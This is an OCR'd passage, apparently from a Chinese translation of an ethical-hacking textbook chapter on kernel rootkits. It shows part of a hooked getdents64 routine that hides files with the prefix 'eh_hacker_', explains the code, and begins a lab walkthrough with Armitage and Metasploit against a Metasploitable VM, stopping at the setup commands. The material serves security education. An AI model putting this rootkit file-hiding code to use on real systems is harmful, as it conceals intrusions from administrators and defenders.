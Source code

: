 ```
       entry = (struct linux_dirent*) entry_addr;

    ➌ if (strncmp(entry->d_name, PREFIX, PREFIX_LEN) != 0){

               offset += entry->d_reclen;

        }else{

          ➍ size_t bytes_remaining = num_bytes - (offset + entry->d_reclen);

             memcpy(entry_addr, entry_addr + entry->d_reclen, bytes_remaining);

             num_bytes -= entry->d_reclen;

             count -= 1;

        }

    }

    return num_bytes;

}
```

我们调用内核的原始 `getdent64()` 函数 ➊，它会更新指针，使其指向 Linux 目录项数组，并设置计数为目录项的数量。它还会返回数组的字节数。接下来，我们遍历所有目录项 ➋，并递增偏移量，直到到达字节数组的最后一个字节。在每次循环迭代中，我们通过将偏移量的值加到目录项指针（`drip`）来计算目录项的地址。然后，我们将该地址强制转换为指向 `linux_direct` 结构的指针，以便轻松访问其字段。接下来，我们检查文件名项，以查看它是否以我们的前缀（`eh_hacker_`） ➌ 开头。如果不匹配，我们通过将偏移量推进到下一个目录项来跳过它。然而，如果它包含我们的前缀，我们会计算剩余字节数 ➍，然后通过将剩余字节向后滑动来覆盖该项，如 图 11-5 所示。最后，我们递减计数和字节数。

除了隐藏文件之外，复杂的 rootkit（例如 Drovorub 恶意软件中的 rootkit）还会隐藏进程、套接字和数据包。这些活动有助于恶意软件避免被检测到。例如，隐藏数据包可以让 rootkit 在与攻击者的服务器通信时避免被检测。它可以通过挂钩到 Netfilter 组件来隐藏数据包，而 Netfilter 是 Linux 内核的一部分，允许防火墙拦截和过滤数据包。

### 使用 Armitage 对主机进行攻击并安装 Rootkit

现在您已经了解了内核模块基础 rootkit 的工作原理，我们来使用一个名为 *Armitage* 的工具，从头到尾执行一次攻击。我们将从扫描 Metasploitable 虚拟机开始，识别一个漏洞。然后，我们将利用这个漏洞上传一个反向 Shell，并用它来下载并安装 rootkit。

Armitage 是一个简化与 Metasploit 框架交互的 GUI。该软件的商业版叫做 Cobalt Strike，价格大约为 $3,500。幸运的是，Armitage 是免费的，尽管它可能存在一些 Bug。您可以通过运行以下命令来安装它：

```
kali@kali:~$ sudo apt-get install armitage
```

安装完成后，启动 `postgresql` 数据库服务，这是 Metasploit 框架用来存储客户端连接信息的：

```
kali@kali:~$ sudo service postgresql start
```

Armitage 是一个用于 Metasploit 框架的 GUI 界面，因此在启动 Armitage 之前，您必须确保 Metasploit 正在运行。数据库初始化完成后，通过运行以下命令启动 Metasploit：

```
kali@kali:~$ sudo msfdb init

[i] Database already started

[+] Creating database user 'msf'

[+] Creating databases 'msf'

[+] Creating databases 'msf_test'
```
